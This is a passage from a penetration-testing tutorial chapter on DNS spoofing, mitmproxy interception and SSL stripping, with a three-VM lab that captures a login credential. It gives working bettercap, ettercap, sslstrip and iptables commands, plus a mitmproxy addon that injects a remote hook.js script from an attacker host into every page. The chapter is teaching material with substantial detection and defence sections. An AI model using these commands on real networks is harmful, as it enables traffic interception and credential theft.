**transparent mode** and redirect the victim's port 80/443 into it with
`iptables`:

```bash
sudo sysctl -w net.ipv4.ip_forward=1
sudo iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 80  -j REDIRECT --to-port 8080
sudo iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 443 -j REDIRECT --to-port 8080
mitmproxy --mode transparent --showhost -p 8080
```

Flag by flag:

| Flag | Meaning |
|---|---|
| `--mode transparent` | Expect redirected traffic (no explicit proxy config on client) |
| `--showhost` | Use the Host header for display, so entries read as real hostnames |
| `-p 8080` | Listen port (matching the iptables REDIRECT) |

For HTTPS to work without a warning, the victim must trust mitmproxy's CA
(`~/.mitmproxy/mitmproxy-ca-cert.pem`). On a real target you cannot install that,
which is mitmproxy's honest limit against a patched client — **it does not defeat
TLS, it substitutes a certificate the client would reject unless it trusts your
CA.** In a lab you install the CA on the victim to study the traffic; on an
engagement this models "what if we compromise the corporate MDM and push a CA?"

### Scripting a rewrite

A mitmproxy addon that rewrites responses — here, injecting a script into every
HTML body:

```python
# inject.py — run with: mitmdump -s inject.py --mode transparent -p 8080
from mitmproxy import http

INJECT = b'<script src="http://192.168.56.10/hook.js"></script>'

def response(flow: http.HTTPFlow) -> None:
    ct = flow.response.headers.get("content-type", "")
    if "text/html" in ct and flow.response.content:
        body = flow.response.content
        if b"</body>" in body:
            flow.response.content = body.replace(b"</body>", INJECT + b"</body>")
            flow.response.headers["content-length"] = str(len(flow.response.content))
```

```
$ mitmdump -s inject.py --mode transparent -p 8080
Proxy server listening at *:8080
192.168.56.20:51402: GET http://neverssl.com/
    << 200 OK 2.3k  [injected hook.js]
```

**Blue team usage:** mitmproxy's interception shows up as certificate anomalies —
a corporate TLS-monitoring stack, or a user glancing at the padlock/cert issuer,
sees the mitmproxy CA rather than the real issuer. Certificate Transparency logs
never contain the mitmproxy cert, so any client that checks CT (or uses
key-pinning) refuses the connection. This is the same defensive theme as HSTS.

---

## Part 8: SSL Stripping — the Attack, and Why It Mostly Died

SSL stripping, introduced by Moxie Marlinspike in 2009 with the `sslstrip` tool,
was for years the single most powerful MITM technique against the web. Then the
web defended itself so thoroughly that today it usually returns nothing on a
public site — and understanding *why* is more valuable than the attack itself.

### The core idea: downgrade https to http between you and the victim

The insight is that users rarely type `https://`. They type `example.com`, or
click a plain link, and the browser first connects over **HTTP**, then gets
redirected/upgraded to HTTPS. SSL stripping sits in that gap:



The attacker keeps a real TLS connection to the server (so the server is happy)
but serves the victim **plain HTTP with every `https://` link rewritten to
`http://`**. The victim's browser shows no TLS, but users rarely notice the
missing padlock. Everything the victim sends is cleartext to the attacker.

### sslstrip from scratch

```bash
sudo apt install -y sslstrip
# Redirect victim's HTTP into sslstrip's listener:
sudo sysctl -w net.ipv4.ip_forward=1
sudo iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
# Run sslstrip (with ARP + DNS spoofing already active):
sudo sslstrip -l 8080 -w /tmp/sslstrip.log
```

Flag by flag:

| Flag | Meaning |
|---|---|
| `-l 8080` | Listen port (matching the iptables redirect) |
| `-w /tmp/sslstrip.log` | Write captured requests/credentials to this file |
| `-a` | Log **all** traffic, not just secure POSTs (verbose) |
| `-f` | Substitute a favicon lock icon to fake the padlock (old trick) |

Watch the log as the victim logs in:

```
$ sudo tail -f /tmp/sslstrip.log
2026-... SECURE POST Data (bank.example):
username=jdoe&password=Winter2026!&csrf=9a1f...
```

### Why it mostly no longer works — the four killers

This is the part that matters for a modern operator. SSL stripping fails on the
public web today because of four layered defences. Know them cold:

| Defence | What it does | Why it kills stripping |
|---|---|---|
| **HSTS** (HTTP Strict Transport Security) | Server sends `Strict-Transport-Security: max-age=...` header; browser remembers to only ever use HTTPS for that host | After the first visit, the browser *refuses* to make the plain-HTTP request sslstrip needs. There is no HTTP request to strip. |
| **HSTS preloading** | Domains ship in the browser's hardcoded preload list (Chrome/Firefox/Safari) | The browser uses HTTPS on the **very first** visit — no bootstrap HTTP request ever, even before any prior contact. Closes the "first visit" gap sslstrip depended on. |
| **HTTPS-first / HTTPS-only mode** | Modern browsers default to trying HTTPS and warn on downgrade | A silent `https→http` rewrite triggers a visible warning or is auto-upgraded. |
| **Encrypted DNS (DoH/DoT)** + secure link hints | DNS answers no longer visible/forgeable on-path; `Alt-Svc`, HTTP/3 push toward TLS | Removes the DNS-forgery step AND the plaintext bootstrap. |

The evolution `sslstrip2` (a.k.a. sslstrip-ng) plus `dns2proxy` was Leonardo
Nve's 2014 answer to early HSTS: it rewrote hostnames to *look-alike* domains on
a spoofed zone (e.g. prefixing `w` or `web.` to the real host) that were **not**
in the victim's HSTS cache, dodging the "known host" check, and used `dns2proxy`
to resolve those forged names. It bought a few years. HSTS **preloading** —
shipping the whole domain and subdomains in the browser binary with
`includeSubDomains` — is what finally closed even that gap for major sites,
because there is no first contact left to exploit.

```bash
# sslstrip2 + dns2proxy sketch (bypasses non-preloaded HSTS in a lab)
git clone https://github.com/singe/sslstrip2 && cd sslstrip2
sudo python2 sslstrip.py -l 8080 &
git clone https://github.com/singe/dns2proxy && cd ../dns2proxy
sudo python2 dns2proxy.py -i eth0            # resolves the look-alike names
```

**Where it still works (and matters on engagements):**

- **Internal apps served over plain HTTP** with no HSTS at all — extremely common
  on corporate intranets, appliances, printers, and IoT.
- **Sites/subdomains not on the preload list and not yet visited** by that
  browser profile (first-contact window on non-preloaded hosts).
- **Clients that ignore HSTS** — old embedded browsers, some API clients, misconfigured
  apps that hardcode `http://`.
- **Mixed-content and `http://` hardcoded links** inside otherwise-HTTPS apps.

**Bug bounty angle:** the transferable skill is *finding the plaintext bootstrap*
— a missing HSTS header, a `http://` form action, an asset loaded over HTTP, a
non-preloaded auth subdomain. Report "missing HSTS / HSTS not preloaded /
mixed-content downgrade" with the exact header evidence; that is a legitimate,
commonly-paid finding even where you never run sslstrip, because it *documents*
the exposure the attack would exploit.

---

## Part 9: A Note on Off-Path Cache Poisoning (Kaminsky) and Why On-Path Is Different

Everything so far assumed you are **on-path** (ARP-spoofed into the flow). It is
worth understanding the harder **off-path** attack, both to appreciate why
on-path is so much easier and because the defences overlap.

In 2008 Dan Kaminsky showed that an off-path attacker — one who cannot see the
victim's queries — could still poison a recursive resolver's cache by:

1. Triggering the resolver to look up many non-existent subdomains
   (`aaaa.bank.example`, `aaab.bank.example`, …).
2. Flooding forged answers for each, guessing the 16-bit transaction ID, and
   crucially including a **glue record** in the authority/additional section that
   redirects the *whole domain's* nameserver to the attacker.
3. Winning the race on any one guess poisons not just one name but the delegation.

Because the only secret was the 16-bit ID (65 536 values) and, at the time, a
predictable source port, this was feasible in seconds. The emergency fix was
**source-port randomisation**: combining a random 16-bit source port with the
16-bit ID raised the search space to ~2^32, making blind guessing impractical.



The contrast is the lesson: **on-path forgery needs zero guessing** because you
read the ID and port off the wire. Source-port randomisation — the whole Kaminsky
fix — does nothing against you, because you are not guessing. Only **DNSSEC**
(which signs the answer so a forged one fails validation) and **encrypted DNS**
(which hides the query and authenticates the responder) actually stop an on-path
forger. That is why those two dominate Part 11's defences.

---

## Part 10: Full Reproducible Lab — Poison, Forge, Strip, Capture

This lab chains everything: ARP-poison a lab victim, forge a DNS answer for an
internal portal, strip TLS on the login page, and capture the credential. **Run
only against machines you own.**

### Lab topology



Build three VirtualBox VMs on a host-only or internal network `192.168.56.0/24`:
an attacker Kali (`.10`), a victim Ubuntu with Firefox (`.20`), and a small web
server (`.30`) serving a plain-HTTP login form as our "internal portal". Point
the victim's DNS at the gateway/lab resolver.

### Step 1 — enable forwarding and poison ARP

```bash
# On attacker (.10)
sudo sysctl -w net.ipv4.ip_forward=1
sudo bettercap -iface eth0
```
```
192.168.56.0/24 > net.probe on
192.168.56.0/24 > set arp.spoof.targets 192.168.56.20
192.168.56.0/24 > arp.spoof on
[arp.spoof] arp spoofer started, probing 1 targets.
```

Verify on the victim that the gateway's MAC is now the attacker's:

```
victim$ ip neigh | grep 192.168.56.1
192.168.56.1 dev enp0s3 lladdr 08:00:27:at:ta:ck REACHABLE   # attacker's MAC
```

### Step 2 — forge the portal's DNS record

```
192.168.56.0/24 > set dns.spoof.domains portal.lab.local
192.168.56.0/24 > set dns.spoof.address 192.168.56.10
192.168.56.0/24 > dns.spoof on
[dns.spoof] started
```
```
victim$ dig +short portal.lab.local
192.168.56.10        # forged: points at attacker, not the real .30
```

### Step 3 — redirect HTTP into sslstrip and run it

In a second attacker terminal:

```bash
sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 8080
sudo sslstrip -l 8080 -w /tmp/lab-sslstrip.log -a
```
```
sslstrip 1.0 by Moxie Marlinspike running...
```

### Step 4 — victim logs in

On the victim, browse to `portal.lab.local` and submit the login form
(`jdoe` / `Winter2026!`). Because the portal is plain HTTP and the DNS is forged
to the attacker, sslstrip relays and logs the POST.

### Step 5 — read the loot

```bash
$ sudo tail -n 5 /tmp/lab-sslstrip.log
2026-... POST Data (portal.lab.local):
username=jdoe&password=Winter2026!&remember=on
```

You have chained: **ARP poison → DNS forge → HTTP relay/strip → credential
capture**, entirely in the lab.

### Step 6 — clean up (always)

Leaving ARP poisoning running corrupts the victim's networking. Tear everything
down:

```bash
# In bettercap:
arp.spoof off
dns.spoof off
# In shell:
sudo iptables -t nat -F
sudo sysctl -w net.ipv4.ip_forward=0
```

**Pitfall — forgetting cleanup.** If you stop Bettercap with Ctrl-C mid-poison,
it usually re-ARPs the victim with the correct gateway MAC on exit; if it crashes
it may not, leaving the victim unable to reach the gateway until its ARP cache
times out. Always `arp.spoof off` before quitting, and flush iptables NAT rules.

### Lab variations to deepen understanding

- Add `net.sniff on` in Bettercap and watch it print the same credentials it sees
  passively — compare with the sslstrip log.
- Turn the portal into HTTPS with a valid cert and observe sslstrip capture
  **nothing** (TLS holds). Then add an HSTS header and confirm the browser refuses
  the downgrade even over plain HTTP on the second visit — you have just
  reproduced, hands-on, why the attack died on the real web.
- Point the victim at a DoH resolver (Firefox `network.trr.mode=3`) and watch
  `dns.spoof` stop working entirely — the queries are now inside HTTPS to
  Cloudflare and invisible to you.

---

## Part 11: Detection & Defense Angle

Every technique in this chapter has a clean detection or prevention story. A
defender's job is to make each of the four DNS-forgery properties from Part 1
fail. This is the consolidated blue-team section.

### Detecting the position (ARP anomaly)

DNS spoofing and stripping both require the attacker to be on-path, almost always
via ARP poisoning. So the first detection is the same as Chapter 5's:

- **`arpwatch`** logs when an IP's MAC changes. The gateway IP suddenly mapping to
  a new MAC (the attacker's) is the tell:
  ```
  arpwatch: flip flop 192.168.56.1 08:00:27:11:22:33 -> 08:00:27:at:ta:ck
  ```
- **Dynamic ARP Inspection (DAI)** on managed switches drops ARP replies that
  disagree with the DHCP snooping binding table — killing the poisoning outright.
- **Static ARP entries** for critical hosts (gateway, DNS server) on sensitive
  clients make them immune to poisoning.

### Detecting forged DNS answers

- **Duplicate/first-wins anomaly:** a monitoring sensor sees *two* answers for one
  query ID — one from the attacker (arriving first, wrong TTL or wrong MAC) and
  one from the real resolver. IDS rules (Suricata/Zeek) can flag answers whose
  source MAC ≠ the resolver's known MAC, or answers arriving from a host that is
  not the configured resolver.
- **Zeek `dns.log`** captured on a SPAN port reveals a name resolving to an
  unexpected internal IP; baseline your critical names and alert on drift.
- **Answer TTL and RDATA sanity:** forged answers often carry attacker-chosen TTLs
  and point internal names at unexpected hosts.

| Signal | Sensor | What it catches |
|---|---|---|
| Gateway/DNS MAC changed | arpwatch, DAI | The ARP position underlying the attack |
| Two answers, one query ID | Zeek/Suricata | The forged-vs-real race |
| Name → unexpected IP | Zeek dns.log baseline | The forgery's effect |
| Downgrade https→http on known-TLS host | Proxy/HSTS logs | SSL stripping |

### Preventing forgery outright

- **DNSSEC** cryptographically signs zone data; a validating resolver rejects a
  forged answer because the signature will not verify. It does not encrypt (an
  on-path observer still sees queries) but it stops *forgery* — the exact thing
  this chapter does.
- **Encrypted DNS — DoH (DNS over HTTPS, RFC 8484) and DoT (DNS over TLS, RFC
  7858)** — send the query inside TLS to a trusted resolver. The on-path attacker
  can no longer read the query (so cannot copy the ID) nor inject a plausible
  answer (wrong TLS session). This defeats on-path forgery completely, which is
  why enabling DoH in the browser made `dns.spoof` inert in the Part 10 variation.

### Preventing the payoff (stripping / manipulation)

- **HSTS with `includeSubDomains` and `preload`**, plus submission to the preload
  list, removes every plaintext bootstrap — the browser never speaks HTTP to the
  domain, so there is nothing to strip.
- **HTTPS-only mode** in the browser turns any downgrade into a visible warning.
- **Certificate Transparency + key pinning / CAA records** make mitmproxy-style
  TLS termination fail or be publicly logged.
- **802.1X / network access control** keeps the rogue attacker box off the LAN in
  the first place, denying the on-path position.



The defensive takeaway mirrors the offensive one: there is a control for each
stage, and defence-in-depth means an attacker who beats one still hits the next.
On a modern, well-configured host, DoH plus HSTS-preload alone neuter this
chapter's entire chain — which is exactly why these attacks have migrated from
the public web to soft internal networks.

---

## Part 12: Real-World Cases, CVEs, and Where This Still Bites

These are not museum pieces. The techniques persist wherever the modern defences
are absent:

- **Firesheep (2010)** dramatised session-cookie theft over open Wi-Fi and pushed
  the whole industry toward sitewide HTTPS and HSTS — a direct historical response
  to the class of attack in this chapter.
- **sslstrip in the wild:** captive portals, open Wi-Fi, and rogue APs still strip
  non-HSTS sites; this is why security teams warn against sensitive logins on
  untrusted networks even now.
- **DNS spoofing on corporate LANs:** internal red-team reports routinely capture
  domain credentials by forging an internal SSO/portal name over plain HTTP —
  because internal apps so often lack HSTS and DNSSEC.
- **DNS cache-poisoning revival — SAD DNS (CVE-2020-25705, 2020):** researchers
  found a side channel (ICMP rate-limit probing) that re-enabled off-path source-
  port inference, partially undoing the Kaminsky-era port-randomisation defence
  and showing that DNS forgery research is still live. The durable fix is DNSSEC/
  encrypted DNS, the same controls in Part 11.
- **Router/DNS hijacking malware (e.g. DNSChanger, and later home-router CSRF
  campaigns):** changed victims' resolver settings so *every* lookup was answered
  by attacker infrastructure — the same forgery goal achieved by owning the
  resolver config instead of racing on the wire.

The throughline: the attack does not need the wire if it can own the answer's
source — resolver config, router, or on-path race are three roads to the same
lie.

---

## Part 13: Final Revision / Summary

- **DNS classic design is unauthenticated and first-answer-wins.** On-path, you
  read the transaction ID and source port off the real query and copy them, so
  forgery is deterministic — no guessing, unlike the off-path Kaminsky attack.
- **Resolution is a chain**: hosts file → OS cache → query-in-flight → resolver
  cache → authoritative. The LAN attack targets the query in flight; you must
  already be on-path (ARP spoofing from Chapter 5) and forwarding.
- **Tools, smallest to largest:** `dnsspoof` (forge only, separate ARP),
  Ettercap `dns_spoof` (poison + forge in one, `etter.dns` table),
  Bettercap `dns.spoof` (modern, caplet-scriptable), `mitmproxy` (surgical
  scripted rewriting via its own CA), `sslstrip`/`sslstrip2`+`dns2proxy`
  (downgrade TLS to cleartext).
- **Manipulation spectrum:** serve a cloned page → transparently proxy and inject
  → strip TLS. Injection and stripping only work on cleartext HTTP.
- **SSL stripping mostly died** because of HSTS, HSTS preloading, HTTPS-only mode,
  and encrypted DNS. It survives on non-HSTS internal apps, non-preloaded first
  visits, and legacy clients — which is where engagements still use it.
- **Defence maps stage-for-stage:** DAI/static ARP/802.1X (position), DNSSEC and
  DoH/DoT (forgery), HSTS-preload/HTTPS-only (stripping), CT/pinning (TLS
  termination). DoH + HSTS-preload alone neuter the whole chain on a modern host.
- **Ethics:** on-path forgery and traffic tampering are criminal off your own
  lab. Everything here is for authorised testing on assets you own or are
  contracted to assess.

---

## Part 14: Cheat Sheet / Quick Reference

**dnsspoof (dsniff)**
```bash
echo "10.0.0.5  *.target.local" > hosts.txt
sudo arpspoof -i eth0 -t VICTIM GATEWAY &
sudo dnsspoof -i eth0 -f hosts.txt host VICTIM and udp port 53
```

**Ettercap dns_spoof**
```bash
# edit /etc/ettercap/etter.dns:  name  A  IP
sudo ettercap -T -q -i eth0 -M arp:remote -P dns_spoof /VICTIM// /GATEWAY//
```

**Bettercap dns.spoof**
```
set arp.spoof.targets VICTIM
arp.spoof on
set dns.spoof.domains *.target.local
set dns.spoof.address 10.0.0.5
dns.spoof on
```

**sslstrip**
```bash
sudo sysctl -w net.ipv4.ip_forward=1
sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 8080
sudo sslstrip -l 8080 -w loot.log -a
```

**mitmproxy transparent**
```bash
sudo iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 80  -j REDIRECT --to-port 8080
sudo iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 443 -j REDIRECT --to-port 8080
mitmdump -s inject.py --mode transparent -p 8080
```

**Cleanup (always)**
```bash
# bettercap: arp.spoof off; dns.spoof off
sudo iptables -t nat -F
sudo sysctl -w net.ipv4.ip_forward=0
```

**Defence quick map**

| Stage | Control |
|---|---|
| On-path position | DAI, DHCP snooping, static ARP, 802.1X |
| DNS forgery | DNSSEC, DoH/DoT |
| SSL stripping | HSTS + preload, HTTPS-only mode |
| TLS termination/inject | Certificate Transparency, key pinning, CAA |

**Verify a target's exposure (defensive recon)**
```bash
# Is HSTS present and preloaded?
curl -sI https://target.example | grep -i strict-transport-security
# Does the site force HTTP->HTTPS, and is the redirect itself over TLS?
curl -sI http://target.example | grep -i location
# Is DNSSEC signed?
dig +dnssec target.example | grep -i RRSIG
```

---

## Part 15: Common Pitfalls

- **No `ip_forward`** → victim loses all connectivity the moment you poison; your
  spoof "works" but the victim's session dies and they reboot/notice.
- **Missing `arp:remote` / wrong targets** → you poison but never see the DNS
  queries, so nothing is forged. Confirm queries reach you with `tcpdump -ni eth0 udp port 53`.
- **Racing and losing** → dnsspoof intermittently loses to a very close real
  resolver; prefer Ettercap/Bettercap which forge as the poisoner and win reliably.
- **Testing SSL stripping against a preloaded domain** → returns nothing, and
  you conclude your setup is broken. It is not — the domain is preloaded. Test
  against a deliberately non-HSTS lab app first to prove the chain, then reason
  about the real target.
- **Forgetting DoH** → a victim browser with DoH on resolves inside HTTPS and your
  `dns.spoof` is inert; check `network.trr.mode` in Firefox or system DoH before
  blaming the tool.
- **Leaving poisoning running** → corrupts the victim's ARP cache and network;
  always `arp.spoof off` and flush iptables before leaving.
- **Self-signed cert warnings ignored as "just the lab"** → on a real internal
  target, users clicking through the warning is often the actual attack path;
  document it as a finding rather than dismissing it.

---

## Part 16: Practice Labs & Resources

Train these exact skills on purpose-built, legal targets:

- **TryHackMe — "Wireshark: The Basics" and "Network Services / Network Services
  2"** for the packet-level view of DNS and cleartext protocols you are forging.
- **TryHackMe — "MITRE" and the L2 MAC-flooding / ARP-spoofing rooms** for the
  on-path position underlying every attack here.
- **PortSwigger Web Security Academy — HSTS and mixed-content material** (and the
  general TLS/transport labs) to understand from the defender's side exactly why
  stripping fails on modern sites.
- **HackTheBox — internal/AD boxes** where an intranet portal over plain HTTP or
  an LLMNR/DNS forge is the intended entry vector (pairs with Chapter 7,
  Responder/LLMNR poisoning).
- **DNSSEC/DoH self-lab:** stand up an `unbound` resolver, enable DNSSEC
  validation, and confirm your Part 10 forge now fails validation — the fastest
  way to *feel* the defence work.
- **Build the Part 10 lab yourself** in VirtualBox with three VMs; then add HSTS,
  then DoH, and watch each control neuter a stage. Reproducing the *failure* of
  the attack teaches more than the success.
- **PCAP practice:** grab DNS-spoofing sample captures (Malware-Traffic-Analysis,
  Wireshark sample-captures) and practise spotting the two-answers-one-ID
  signature you would alert on as a blue-teamer.

Chapter 7 builds directly on this: **Responder and LLMNR/NBT-NS poisoning**,
which is DNS-style name forgery aimed at Windows' fallback name-resolution
protocols to capture NTLM hashes — the same "answer first with a lie" idea,
moved one layer down the Windows name-resolution stack.
